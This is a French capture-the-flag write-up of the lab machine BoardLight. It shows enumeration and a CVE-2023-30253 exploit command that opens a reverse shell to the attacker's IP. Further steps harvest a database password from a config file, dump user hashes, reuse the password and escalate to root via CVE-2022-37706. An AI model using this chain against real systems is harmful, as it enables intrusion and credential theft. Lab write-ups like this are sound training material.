 # Info de la box

```md
My IP: 10.10.14.3
IP Target: 10.10.11.11
OS: Linux

Creds:
	Email: info@board.htb
```
# Énumération

```Bash
➜ sudo nmap -sSVC -T5 -p- 10.10.11.11
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)  
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)  
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
➜ sudo ffuf -w Seclists/Discovery/Web-Content/combined_directories.txt -u http://10.10.11.11/FUZZ -c -recursion
```

RAS

```bash
➜ sudo ffuf -w SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.10.10.11.11/ -c
```

RAS

```bash
➜ sudo ffuf -w SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb/ -H "Host:FUZZ.board.htb" -c

crm                     [Status: 200, Size: 6360, Words: 397]
```

```bash
➜ whatweb -a3 http://10.10.11.11/
http://10.10.11.11/ [200 OK] Apache[2.4.41], OWL Carousel [2.3.4], Bootstrap[4.3.1], Country[RESERVED][ZZ], Email[info@board.htb], HTML5,  
HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.11], JQuery[3.4.1], Script[text/javascript], X-UA-Co  
mpatible[IE=edge]
```

```bash
➜ wafw00f http://10.10.11.11/
[*] Checking http://10.10.11.11/  
[+] Generic Detection results:  
[-] No WAF detected by the generic detection  
[~] Number of requests: 7
```
# On commence à check la Page Web

#### board.htb

Rien
#### crm.board.htb
- user/pass admin:admin
- Mode authentification: dolibarr 17.0.0
- thème: eldy
- Onglet Sites Web permet la création d'une page web
	-> on peut tenter un reverse shell

Effectivement CVE [cve-2023-30253]
#### Exploit de la CVE:
```bash
➜ python3.9 CVE-2023-30253.py --url http://crm.board.htb/ -u admin -p admin -r 10.10.14.3 9001
```

On est alors connecté en tant que www-data sur la machine `www-data@boardlight`
On peut noter que dans /home il y a un groupe/user nommé larissa
# On étudie alors les connections/services

```bash
(remote) www-data@boardlight:/home$ ss -tl  
State          Recv-Q         Send-Q                 Local Address:Port                   Peer Address:Port        Process           
LISTEN         0              151                        127.0.0.1:mysql                       0.0.0.0:*                             
LISTEN         0              70                         127.0.0.1:33060                       0.0.0.0:*                             
LISTEN         0              128                          0.0.0.0:ssh                         0.0.0.0:*                             
LISTEN         0              4096                   127.0.0.53%lo:domain                      0.0.0.0:*                             
LISTEN         0              511                                *:http                              *:*
```

- On voit qu'il y a donc une SGBD MySQL qui tourne dérrière sur le port 3306
- On cherchera évidemment à s'y connecter mais il nous manque des creds

En attendant on retourne sur crm.board.htb et j'ai vu un paramètre intéressant

Je me suis demandé si on pouvait pas IDOR. Alors j'ai lancé un fuzz. Mais Rien

```bash
➜ sudo ffuf -w 5-digits-00000-99999.txt -u http://crm.board.htb/user/card.php\?id\=FUZZ -c -fs 6373

RAS
```

Je pense fortement qu'il faut fouiller ici `/var/www/html/crm.board.htb`
	-> Bingo on voit les creds ici !
	`/var/www/html/crm.board.htb/htdocs/conf/conf.php`

```bash
$dolibarr_main_url_root='http://crm.board.htb';  
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';  
$dolibarr_main_url_root_alt='/custom';  
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';  
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';  
$dolibarr_main_db_host='localhost';  
$dolibarr_main_db_port='3306';  
$dolibarr_main_db_name='dolibarr';  
$dolibarr_main_db_prefix='llx_';  
$dolibarr_main_db_user='dolibarrowner';  
$dolibarr_main_db_pass='serverfun2$2023!!';  
$dolibarr_main_db_type='mysqli';  
$dolibarr_main_db_character_set='utf8';  
$dolibarr_main_db_collation='utf8_unicode_ci';  
// Authentication settings  
$dolibarr_main_authentication='dolibarr';
```

# On va tenter de se connecter à la SGBD MySQL

```bash
➜ mysql -h localhost -P 3306 -u "dolibarrowner" -p
# Et on est connecté ;)

mysql> SHOW DATABASES;  
+--------------------+  
| Database           |  
+--------------------+  
| dolibarr           |  
| information_schema |  
| performance_schema |  
+--------------------+

mysql> USE dolibarr;
	[...]
mysql> SHOW TABLES; # Voici les 3 qui ont retenues mon attention
- llx_user
- llx_usergroup
- llx_website

# Je dump alors la table.
mysql> SELECT * FROM llx_user\G;  
*************************** 1. row ***************************  
                      rowid: 1  
                     entity: 0  
               ref_employee:    
                    ref_ext: NULL  
                      admin: 1  
                   employee: 1  
           fk_establishment: 0  
                      datec: 2024-05-13 13:21:56  
                        tms: 2024-05-13 13:21:56  
                      login: dolibarr  
               pass_crypted: $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm   
                   lastname: SuperAdmin  
*************************** 2. row ***************************  
                      rowid: 2  
                     entity: 1  
               ref_employee:    
                    ref_ext: NULL  
                      admin: 0  
                   employee: 1  
           fk_establishment: 0  
                      datec: 2024-05-13 13:24:01  
                        tms: 2024-05-15 09:58:40  
                      login: admin  
               pass_crypted: $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96  
                    api_key: yr6V3pXd9QEI  
                   lastname: admin  

```

- On a dump la db mais le mdp de larissa c'était `serverfun2$2023!!`
-> (réutilisation de mdp)

# Privesc

J'ai donc cherché à élever les privilèges via des droits sudo et des crontabs.
Mais rien.

Alors je lance un petit linpeas.sh et je vais regarder les SUID:
###### Analyse des droits SUID
```bash
larissa@boardlight:/tmp$ cat recon-linpeas | grep "SUID"  
 Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)    
╔══════════╣ SUID - Check easy privesc, exploits and write perms  
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)  
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)  
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)  
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

On voit que `enlightenment` c'est assez étrange on regarde sur internet
	-> https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
	-> On lance le script et hop on est root !

On vient de pwn la box Boardlight :D